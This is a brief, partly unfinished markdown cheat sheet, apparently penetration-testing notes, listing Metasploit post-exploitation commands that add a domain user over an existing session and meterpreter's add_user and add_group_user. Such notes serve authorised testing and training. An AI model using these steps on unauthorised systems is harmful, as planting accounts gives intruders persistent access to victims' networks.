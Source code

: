 # Metasploit

## 01 - Create Domain User

```
msf > use post/windows/manage/add_user_domain

set username <username>

set password <password>

set session <session_ID>

run
```

## 02 - Add Tokens

TODO: Fill this info

```
meterpreter > add_user

meterpreter > add_group_user
```